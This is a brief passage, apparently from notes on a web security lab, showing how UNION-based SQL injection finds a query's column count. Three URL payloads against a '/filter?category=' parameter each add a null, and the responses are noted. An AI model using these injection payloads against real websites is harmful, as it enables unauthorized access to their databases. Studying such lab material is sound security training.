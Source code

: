 ### Just add the third query in the url bar

```
/filter?category=Pets'+UNION+SELECT+null--            #Error response
/filter?category=Pets'+UNION+SELECT+null,null--       #Error response
/filter?category=Pets'+UNION+SELECT+null,null,null--  #200 OK
```
